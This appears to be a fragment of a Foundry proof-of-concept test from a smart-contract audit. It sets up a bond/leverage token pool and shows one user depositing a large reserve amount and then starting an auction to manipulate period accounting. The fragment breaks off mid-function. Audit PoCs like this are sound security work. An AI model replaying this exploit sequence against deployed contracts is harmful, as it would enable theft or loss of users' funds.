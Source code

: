 ```solidity

        vm.startPrank(governance);
        rToken.approve(address(poolFactory), 0.1e18);

        Pool pool = Pool(poolFactory.createPool(
            params,
            0.1e18,
            2e18,
            2e18,
            "BToken",
            "BT",
            "LToken",
            "LT",
            false
        ));

        pool.setAuctionPeriod(10 days);
        vm.stopPrank();

        BondToken bToken = BondToken(pool.bondToken());
        LeverageToken lToken = LeverageToken(pool.lToken());

        return (rToken, usdc, bToken, lToken, pool);
    }

    function test_POC() public {
        (Token rToken, Token usdc, BondToken bToken, LeverageToken lToken, Pool pool) = standardSetup();

        vm.startPrank(alice);
        console.log("\n====== Alice creates with 2e18 rToken ======");
        rToken.approve(address(pool), 2e18);
        pool.create(
            Pool.TokenType.BOND,
            2e18,
            0
        );
        vm.stopPrank();

        vm.warp(block.timestamp + 92 days);

        vm.startPrank(chad);
        mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));
        
        //chad calls create with a large amount of reserve tokens
        console.log("\n====== Chad creates with 100e18 rToken ======");
        rToken.approve(address(pool), 100e18);
        pool.create(
            Pool.TokenType.BOND,
            100e18,
            0
        );

        console.log("\n====== Chad starts auction ======");
        (uint256 currentPeriod, ) = bToken.globalPool();
        console.log("currentPeriod before: ", currentPeriod);
        pool.startAuction(); //Then he starts the auction
        (currentPeriod, ) = bToken.globalPool();
        console.log("currentPeriod after: ", currentPeriod); //Shows that currentPeriod got increased
        Auction auction = Auction(pool.auctions(0));

```